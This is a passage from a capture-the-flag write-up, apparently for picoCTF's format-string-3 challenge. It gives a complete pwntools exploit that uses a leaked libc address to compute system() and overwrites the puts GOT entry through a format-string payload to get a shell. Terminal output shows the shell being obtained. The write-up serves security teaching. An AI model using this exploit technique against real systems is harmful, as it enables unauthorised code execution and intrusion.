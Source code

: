 ```python
#! /usr/bin/python3

from pwn import *

context.update(arch='amd64')

p = process('./format-string-3')  
#p = remote('rhea.picoctf.net',53286)

info(p.recvline())       # Fetch Howdy Gamers!
info(p.recvuntil('libc: '))

# Get setvbuffer address in string and convert to int
setvbuf_addr_str = p.recvline().strip()
setvbuf_addr = int(setvbuf_addr_str,16)
info('Leaked setvbuf address: %s', hex(setvbuf_addr))

#INFO I GOT
puts_addr = 0x404018
# setvbuf address in libc = 0x7a3f0
# system address in libc = 0x4f760
#offset setvbuf - system = 175248
#user input start from 38th of stack

# Calculate system address
offset = 175248
system_addr = setvbuf_addr - offset
info('Calculated system address: %s', hex(system_addr))

# Crafting payload
info('Crafting payload...')
payload = fmtstr_payload(38, {puts_addr : system_addr})

# Send payload
info('Sending payload...')
p.sendline(payload)
p.clean()

# Get the shell
info('Successful payload, got the shell')
p.interactive()
```

5. Output the flag after obtain the shell access.

```terminal
$ ./exploit.py
[+] Starting local process './format-string-3': pid 66163
[*] Howdy gamers!
[*] Okay I'll be nice. Here's the address of setvbuf in libc: 
[*] Leaked setvbuf address: 0x7f05a6ba03f0
[*] Calculated system address: 0x7f05a6b75760
[*] Crafting payload...
[*] Sending payload...
[*] Successful payload, got the shell
[*] Switching to interactive mode
$ cat flag.txt
got the flag
```

## Conclusion
This challenge requires an understanding of Global Offset Table(GOT), and exploiting format string vulnerabilities to overwrite GOT to gain shell access. 
